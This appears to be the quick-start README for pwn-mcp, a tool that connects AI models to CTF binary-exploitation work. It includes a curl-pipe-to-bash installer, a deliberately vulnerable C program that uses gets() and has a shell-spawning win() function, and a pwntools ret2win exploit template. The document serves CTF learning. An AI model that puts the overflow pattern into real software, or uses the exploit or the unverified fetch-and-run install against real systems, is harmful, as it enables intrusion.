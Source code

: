 # Quick Start Guide

This guide will help you get started with pwn-mcp in 5 minutes.

## Prerequisites

- Linux or WSL2 environment
- Node.js 18+ (will be installed if missing)
- A CTF pwn challenge binary

## Installation

### Option 1: Quick Install (Recommended)

```bash
curl -sSL https://raw.githubusercontent.com/polarisxb/pwn-mcp/main/install.sh | bash
```

### Option 2: Docker

```bash
docker pull ghcr.io/polarisxb/pwn-mcp:latest
docker run -it -v "$PWD:/workspace" ghcr.io/polarisxb/pwn-mcp:latest
```

## Your First Analysis

### 1. Prepare a Test Binary

```bash
# Create a vulnerable test program
cat > vuln.c << 'EOF'
#include <stdio.h>
#include <string.h>

void win() {
    system("/bin/sh");
}

void vuln() {
    char buffer[64];
    printf("Enter input: ");
    gets(buffer);  // Vulnerable!
}

int main() {
    vuln();
    return 0;
}
EOF

# Compile without protections
gcc -fno-stack-protector -no-pie -o vuln vuln.c
```

### 2. Start pwn-mcp Server

```bash
# If installed from source
node ~/.pwn-mcp/packages/mcp-server/dist/server.js

# Or with Docker
docker run -it -v "$PWD:/workspace" ghcr.io/polarisxb/pwn-mcp:latest
```

### 3. Use with Claude/Cursor

Add to your MCP settings:

```json
{
  "mcpServers": {
    "pwn-mcp": {
      "command": "node",
      "args": ["~/.pwn-mcp/packages/mcp-server/dist/server.js"],
      "env": {
        "SAFE_MCP_DEEP_STATIC": "true",
        "SAFE_MCP_GDB_EXEC": "true"
      }
    }
  }
}
```

### 4. Ask the AI

Start a conversation:
- "I have a binary called 'vuln' in my current directory. Can you analyze it and help me exploit it?"
- "What protections does this binary have?"
- "Can you find the offset to control RIP?"
- "Generate an exploit script for this challenge"

## Example Workflow

The AI will guide you through these steps:

1. **Initialize Session**
   ```
   AI: Creating session for target binary...
   Session ID: abc123
   ```

2. **Binary Analysis**
   ```
   AI: Analyzing binary...
   - Architecture: x86_64
   - Protections: NX=No, PIE=No, Canary=No
   - Found vulnerable function: gets()
   ```

3. **Find Offset**
   ```
   AI: Running with cyclic pattern...
   - Crash at: 0x6161616c
   - Offset: 72 bytes
   ```

4. **Generate Exploit**
   ```python
   # Generated template
   from pwn import *
   
   p = process('./vuln')
   
   # TODO: Add your exploit here
   offset = 72
   win_addr = 0x401156  # Address of win()
   
   payload = b'A' * offset
   payload += p64(win_addr)
   
   p.sendline(payload)
   p.interactive()
   ```

## Common Commands

| Task | What to Ask |
|------|-------------|
| Analyze binary | "Analyze this binary and tell me about its protections" |
| Find vulnerabilities | "What vulnerabilities does this binary have?" |
| Calculate offset | "Find the offset to control RIP/EIP" |
| Generate exploit | "Create a pwntools script to exploit this" |
| Export report | "Generate a full report of the analysis" |

## Troubleshooting

### Binary not found
- Ensure the binary path is correct
- Use absolute paths if needed

### Analysis tools not available
- Install rizin: `sudo apt install rizin`
- Install gdb: `sudo apt install gdb`

### Permission denied
- Make binary executable: `chmod +x binary`
- Check file ownership

## Next Steps

- Read the [full documentation](../README.md)
- Try more [examples](./EXAMPLES.md)
- Join our [community](https://github.com/polarisxb/pwn-mcp/discussions)

Happy pwning! 🚀
